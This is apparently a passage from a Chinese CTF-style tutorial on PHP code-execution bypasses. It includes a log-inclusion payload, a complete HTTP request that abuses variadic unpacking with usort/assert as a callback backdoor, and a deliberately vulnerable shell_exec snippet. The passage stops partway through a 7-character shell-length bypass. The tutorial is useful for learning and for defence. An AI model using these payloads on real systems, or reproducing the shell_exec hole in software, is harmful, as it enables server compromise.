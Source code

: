 	![d1MfRP.png](https://s1.ax1x.com/2020/08/19/d1MfRP.png)

4. 本地日志包含

	首先通过各种方法找到web日志，然后利用上面说的include的方式来包含之。

		param=include$_GET[a];&a=/home/u244201241/.logs/php_error.log

	如果找不到web日志，利用条件竞争的方法。

5. 利用变长参数特性展开数组

	变长参数是PHP5.6新引入的特性，文档在此： [http://php.net/manual/zh/migration56.new-features.php](http://php.net/manual/zh/migration56.new-features.php)

	再结合回调后门（ https://www.leavesongs.com/PENETRATION/php-callback-backdoor.html ），即可构造一个完美的利用，数据包如下：

	```
	POST /index.php?1[]=test&1[]=var_dump($_SERVER);&2=assert HTTP/1.1
	Host: localhost:8081
	Accept: */*
	Accept-Language: en
	User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
	Connection: close
	Content-Type: application/x-www-form-urlencoded
	Content-Length: 22

	param=usort(...$_GET);
	```

	![d11M8I.png](https://s1.ax1x.com/2020/08/19/d11M8I.png)

## 命令长度突破限制技巧

#### 7个字符

Linux命令长度限制在7个字符的情况下，如何
拿到shell

```
 <?php
show_source('index.php');
if(strlen($_GET[1])<8){
    echo shell_exec($_GET[1]);
}
?> 
```

* shell_exec — 通过 shell 环境执行命令，并且将完整的输出以字符串的方式返回。


1. 直接写shell是不可能的，1=echo 1>1都8个字符了。
2. 下载一个shell也是不可行的，1=wget x.xx也超了。

所以需要想一种进行拼凑的办法:

直接`1=>filename`,就可以创建文件，但是`1=1>filename`并没有办法把1写到文件中去，所以说这里只能够创建空文件，没有办法把内容写入到文件中去。
